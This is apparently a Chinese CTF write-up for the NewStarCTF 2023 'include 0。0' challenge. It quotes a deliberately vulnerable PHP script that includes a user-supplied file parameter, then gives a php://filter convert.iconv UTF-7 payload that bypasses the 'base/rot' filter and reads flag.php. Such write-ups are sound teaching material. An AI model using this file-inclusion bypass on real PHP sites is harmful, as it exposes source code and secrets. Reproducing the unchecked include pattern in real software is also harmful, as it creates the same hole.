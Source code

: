 ```yaml
---
title: '[NewStarCTF 2023 公开赛道]include 0。0'
date: 2024-10-23 19:47:55
tags: 文件包含
categories: 刷题笔记
---
```


## [NewStarCTF 2023 公开赛道]include 0。0

```
<?php
highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
  @include($file);
}else{
  die("nope");
}
?>
```

我们发现代码过滤了base和rot，但没过滤convert.iconv，因此我们可硬将utf-8转为utf-7来输出flag.php的内容

<!--more-->

```
?file=php://filter/convert.iconv.utf-8.utf-7/resource=flag.php
```

![image-20241023211056947](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410232111025.png)
